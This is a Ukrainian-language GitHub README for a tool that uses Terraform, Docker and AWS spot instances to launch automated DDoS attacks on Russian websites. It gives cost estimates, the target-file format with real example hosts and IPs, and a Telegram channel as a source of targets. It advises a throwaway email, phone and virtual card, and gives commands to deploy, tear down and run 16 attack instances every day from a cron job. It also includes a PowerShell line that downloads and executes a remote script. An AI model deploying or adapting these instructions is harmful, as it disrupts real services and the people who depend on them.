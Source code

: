 ### russkiy_korabl_poshel_nahuy

# Орієнтовна вартість:
Як показала практика 1 інстанс який працює з ранку до 1 ночі по мордору, за місяць навалює приблизно на 100 $. Тобто 16 інстансів == 1600 $ на місяць. Обирайте за своїм бюджетом.

# Коротко як працює актуальний майстер:
1) У вас є файл links.txt можете його оновити перед використанням для атак на власний список адрес, або залишити список порожнім, тоді система візьме список з ремоуту і ви будете атакувати аткуальні цілі. Додатково - тепер система автоматично відслідковує оновлення списку і автоматично скачує та перезапускає процесс. Процесс в нескінченному циклі, тому вранці включили - а на ніч воно `само виключилось, дивись 1.1`.
   
   1.1) Додана можливість автоматичного вимикання. Достатньо виставити потрібний час в variables.tf - shutdown_hour. За замовченням стоїть 22 години, за умови що в московії +3 години UTC, це означає що ДДос автоматично припиниться, і сервера будуть погашені, о першій годині ночі за московією.
   
2) Адреси в файлі повинні бути построчно, у вигляді dns або `ip port` через спейс. Типу:

   `webmail.airport58.ru`
   
   `91.219.194.7 80`
   
   `93.219.194.7 22`
   
   2.2) IP адреси із серії "лоакльних" тепер відсіюються. До прикладу:
      `127.0.0.0 – 127.255.255.255     127.0.0.0 /8`
      `10.0.0.0 –  10.255.255.255      10.0.0.0 /8`
      `172.16.0.0 – 172. 31.255.255    172.16.0.0 /12`
      `192.168.0.0 – 192.168.255.255   192.168.0.0 /16`

3) Якщо в списку попадається `dns` ім'я, на приклад `webmail.airport58.ru` то скрипт копає його, знаходить всі наявні `ip` адреси і б'є по всім доступним.   
4) При запуску тераформу цей список попадає на кожну віртуалку де скрипт запускає докер з посиланням зі списку.
5) Одночасно працює 3 контейнери. кожен контейнер працює годину або поки не впаде, або поки не впаде сайт і контейнер сам зупиниться.
6) коли звільняється місце якогось контейнера, скрипт запускає новий з наступною по списку адресою.
8) Коли\якщо віртуалки подохли - оновлюєм список, або використовуємо той самий і запускаємо по новій.

# Для початку тобі треба:

0) Нову поштову адресу для АВС аккаунту на всяк випадок.
0.1) Поставити на комп `aws cli` для Windows в powershell `msiexec.exe /i https://awscli.amazonaws.com/AWSCLIV2.msi`
1) Номер телефону який не шкода на всяк випадок.
2) Віртуальна картка (гривнєва обов'язково бо під час війни доллар не продається і її неможливо поповнити) з лімітом грошей на ній. 3$ для старту достатньо.
3) АВС аккаунт, там створи ACCESS KEY, обов'язково збережи його, він показується один раз.
 
   3.1) Активуй зону Hong Kong (займає хвилин 5) Account > AWS Regions > Hong Kong - Enable
   
   3.1) Перейди в цей регіон

4) в сервісі KEY PAIRS створи .pem RSA ключ, збережи його собі десь. Назва ключа в АВС має співпадати з назвою ключа в коді в `main.tf => aws_spot_instance_request => key_name`
5) І постав на машину собі terraform
   
   5.1) В Windows powershell ранимо однією командою весь наступний виділений текст: `Set-ExecutionPolicy Bypass -Scope Process -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('https://community.chocolatey.org/install.ps1'))`
   
   5.2) Потім ранимо в терміналі `choco install terraform`

# Для ручного запуску:

1) Скачати цю репу
2) бути залогіненим в АВС в консолі\терміналі - `aws configure`
3) В папці з репою в терміналі запустити - `terraform init`
4) Додати в змінних `variables.tf` шлях до АВС .pem ключу
5) Додати\оновити за необхідності файл links.txt вебсайтами для атаки (беріть в будь якому ТГ каналі https://t.me/itarmyofukraine2022 або "ddos котики")
6) Запускаєш в терміналі в репі - `terraform apply` 
приблизний результат ![image](https://user-images.githubusercontent.com/24322276/155978270-46a9b635-8519-48f1-8a98-a6f216e1c61d.png)
7) Чекаєш на весь конфіг, та пишеш - `yes`
8) Якщо маслає довго - гуд. Якщо перестало то скоріше за все або адреса сайту невірна або сайт не відповідає.
приблизний результат того що все працює ![image](https://user-images.githubusercontent.com/24322276/155978537-84cbaa5d-c323-4ab4-a61e-571b6369872f.png)
9) Процесс атаки налаштований на одну годину. Після цього робимо `terraform destroy`, за бажанням\потребою змінюємо сайт для атаки, і знову `terraform apply`
10) Якщо `terraform destroy` більше 3х хвилин не закінчується, тоді ліземо на АВС сайт, обираємо `instances`, виділяємо всі та стопаємо їх:
![image](https://user-images.githubusercontent.com/24322276/155982236-15ad9379-7e06-4d97-b21d-8b34f5182b50.png)
11) Для того щоб глянути чи не завалився ще сайт можна законектитись на будь який зі своїх інстансів, глянути логи контейнера. Якщо массове `no connection! web server maybe down!` то або сайт ліг або закрились з ГонКонгу і треба перемикатись на щось інше.
12) Щоб підключитись на якусь віртуалку треба на АВС зайти в фічу `Instances` там клікаєш на будь яку яка `running` і там буде `connect`

# Як налаштувати на повністю автоматичну роботу за допомогою безкоштовного інстансу на AWS:

1) Login to your AWS account and create (launch) new EC2 instance
Name it, for example Master.
Choose all free options tier what possible
`amazon linux 2`
`t3.micro`
`choose your key`
`default vpc`
2) Wait for full initialization of incstance
3) Choose your C2 instance => security => click your security group name => Click: Edit inbounds rules => Add rule => Type - ssh, Source - my IP.
4) Connect to it
5) Copy aws_key.pem to this EC2 (log off - type EXIT in terminal. At your pc type in one line `scp -i "c:/war/aws_key.pem" c:/war/aws_key.pem  ec2-user@ec2-YOUR-EC2-IP-HERE.ap-east-1.compute.amazonaws.com:/tmp/`
6) Login to the EC2 again.
7) cd /tmp && sudo yum -y install git
8) Download repo - git clone https://github.com/Fessant/russkiy_korabl_poshel_nahuy.git
9) cd /tmp/russkiy_korabl_poshel_nahuy
10) Install terraform
`sudo yum install -y yum-utils`
`sudo yum-config-manager --add-repo https://rpm.releases.hashicorp.com/AmazonLinux/hashicorp.repo`
`sudo yum -y install terraform`
11) Check succesfull start of terraform manually as usually
12) When everything will be fine add cron job:
Run: `crontab -e`
`INSERT`
paste in window in one line next: `00 06 * * * cd /tmp/russkiy_korabl_poshel_nahuy && terraform apply -var instance_count=16 -var pem_key_path=/tmp/aws_key.pem -auto-approve` 
then press `ESC` `:wq` `ENTER`
13) Ensure that crontab set properly. Run: `crontab -l`
Тепер ваш Мастер інстанс буде жити цілодобово, і кожен день о шостій ранку по серверу - `00 06 * * *` + 3 години по UTC, тобто о 9:00 по мордору, буде запускати 16 віртуалок з ДДОСом. Які в свою чергу о першій ночі по мордору будуть гаситися. І так по колу.

